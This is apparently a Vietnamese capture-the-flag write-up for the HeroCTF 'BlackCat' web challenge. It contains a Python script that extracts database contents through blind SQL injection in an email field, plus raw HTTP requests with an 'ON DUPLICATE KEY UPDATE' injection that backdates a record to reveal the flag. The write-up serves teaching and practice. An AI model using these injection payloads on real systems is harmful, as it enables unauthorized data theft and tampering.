 # HeroCTF - BlackCat

**Description**: Ayo nạp email và sau 3 ngày email mày sẽ được validate từ đó có thể tham gia cái event này vui lắm(flag).

Đây là 1 bài blackbox nên tối mờ tối mịt, khó là ở chỗ foothold, không có hint chắc người thiếu kiên nhẫn như mình đòi bỏ quộc.

1. Cho 1 endpoint curl đến với 1 email, trả về 1 endpoint khác cùng secret.
2. Curl đến endpoint trả về trên cùng email và secret thi được `ayo!! 3 ngày`

Làm gì đây, là 1 hacker thì phải đa nghi đi test tất chứ, thử SQLi vào email endpoint thứ nhất thì đúng là nó dính(trigger error bằng comment hoặc `e@b.c', 'secret')-- -` mà curl với secret trên đúng là chuẩn rồi)

Mình muốn nhấn mạnh mình cần đa nghi nhiều hơn nữa và test tất, đã thử là thử cho ra trò, xem xét req valid với res valid và error khi test các kí tự đặc biệt.

Tiếp build python script brute-force tìm table và column:
```python
import requests
import string

characters = string.ascii_letters + string.digits + string.punctuation
url = 'https://blackcat.web.heroctf.fr/api/newsletter.php'
s = requests.Session()


headers = {
	'User-Agent': 'curl/7.83.0',
	'Accept': '*/*',
	'Content-Type': 'application/x-www-form-urlencoded'
}

flag = ''
while True:
	for c in characters:
		data = {
			'email': f"hello16@abc.com', (SELECT CASE WHEN (SELECT ascii(substring((SELECT email FROM newsletter limit 0,1),{len(flag)+1},1)))={ord(c)} THEN '1' ELSE 1/0 END)) ON DUPLICATE KEY UPDATE secret=secret-- -"
			# 'email': "hello16@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=1-- -"
		}

		r = s.post(url, data=data, headers=headers)
		print(flag+c)
		if 'ok' in r.json():
			flag += c
			print('[FOUND] : '+flag)
			break
```
1. Tìm được database(): backcat
2. table_name: newsletter
3. columns: email, secret, send_date

Tiếp ta dùng burp đấm(vì nó chỉ cho dùng curl(thật ra thêm header `tao là curl` là được))

## ENDPOINT 1
`request`:
```
POST /api/newsletter.php HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*
Content-Length: 84
Content-Type: application/x-www-form-urlencoded

email=devme1@abc.com', 'a') ON DUPLICATE KEY UPDATE send_date=DATE('2023-11-22')-- -
```
Ta SQLi ở insert, nếu email trùng thì duplicate update send_date cho quá hạn là được!!

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:55 GMT
Content-Type: application/json
Content-Length: 269
X-Powered-By: PHP/7.2.34

{"ok":"Check at /api/check.php with your email as get parameter and this secret: cc58d9ae093cbfb80ebc as get parameter too, to check if you've been accepted.<br>Example: https://blackcat.web.heroctf.fr/api/check.php?email=worty@blackcat.fr&secret=a32ecb08749ffeaf4e78"}
```

## ENDPOINT 2
Giai đoạn get flag thôi!!

`request`:
```
GET /api/check.php?email=devme1@abc.com&secret=a HTTP/2
Host: blackcat.web.heroctf.fr
User-Agent: curl/7.83.0
Accept: */*


```

`response`:
```
HTTP/2 200 OK
Server: nginx/1.21.6
Date: Sun, 29 May 2022 16:08:57 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 268
X-Powered-By: PHP/7.2.34
Vary: Accept-Encoding

We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'<br>Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}<br>BlackCat.
```

**flag**: `Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!`
